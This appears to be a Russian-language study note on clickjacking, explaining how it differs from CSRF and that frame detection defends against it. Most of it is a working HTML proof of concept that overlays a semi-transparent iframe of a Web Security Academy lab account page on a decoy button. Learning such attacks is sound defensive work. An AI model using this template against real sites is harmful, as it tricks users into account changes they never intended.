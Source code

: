 # Clickjacking (UI redressing)

Форма прорисовывается поверх формы лигитимного приложения. Разница от CSRF в том, что требуется от пользователя интерактивных действий (кликнуть по кнопке, например).

CSRF токены не защищают от этого вида атак. Защищает детектирование того, что сайт загружен в скрытом iframe.

## Construct basic clickjacking attack

```markup
<html>
    <head>
        <title>UI Redressing PoC</title>
        <style>
            #target_website {
                position:relative;
                width:700px;
                height:500px;
                opacity:0.2;
                z-index:2;  /* Элемент с наиболее высоким z-index, перекрывает другие
                               Тем самым видимая часть (div) будет наверху, но фактически активным будет iframe
                            */
            }
            #decoy_website {
                position:absolute;
                z-index:1;
            }
            #btn_action {
                position: relative;
                width: 100px;
                height: 20px;
                color: brown; 
                top: 445px;  
                left: 40px;   
            }
        </style>
    </head>
    <body>
        <div id="decoy_website">
            <button id="btn_action">
                click me
            </button>
            ...decoy web content here...
        </div>
        <iframe id="target_website" src="https://0ac0003404fc3984c07807190024003a.web-security-academy.net/my-account?email=email2@gmail.com">
        </iframe>
    </body>
</html>
```
